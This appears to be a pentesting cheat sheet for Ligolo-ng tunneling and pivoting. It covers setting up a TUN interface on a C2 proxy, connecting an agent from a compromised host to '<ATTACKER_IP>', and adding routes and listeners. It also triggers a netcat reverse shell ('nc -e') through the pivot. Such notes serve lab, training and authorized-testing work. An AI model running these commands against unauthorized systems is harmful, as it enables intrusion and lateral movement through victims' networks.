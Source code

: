 Create a TUN interface on the C2 (proxy) server
```
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```
Start proxy server
```shell
./proxy -h # Help options
./proxy -autocert # Automatically request LetsEncrypt certificates
./proxy -selfcert # Use self-signed certificates
```
Connect to proxy server
```
./agent -connect <ATTACKER_IP>:11601 -ignore-cert
```
Start Tunnel (Select session first)
```
[Agent : root@prod-serv] » session
? Specify a session :  [Use arrows to move, type to filter]
> 1 - #1 - root@prod-serv - 10.200.96.200:46478
start
```
Add networking route on ATTACKER machine
```
sudo ip route add <IP>/<CIDR> dev ligolo
```
Add listener
```
listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp
```
- `0.0.0.0` binding listening address
- `127.0.0.1` attacker machine
- Machine A (Compromised machine)
On Machine B  trigger a reverse shell
```
nc -e <MACHINE A IP> <PORT>
nc -e <MACHINE A IP> 30000
```
All traffic to 30000 will be redirected to port 10000 on the attacker machine

Local Port Forwarding
```
sudo ip route add 240.0.0.1/32 dev ligolo
```
Reset/Restart setup
```
sudo ip link delete ligolo
```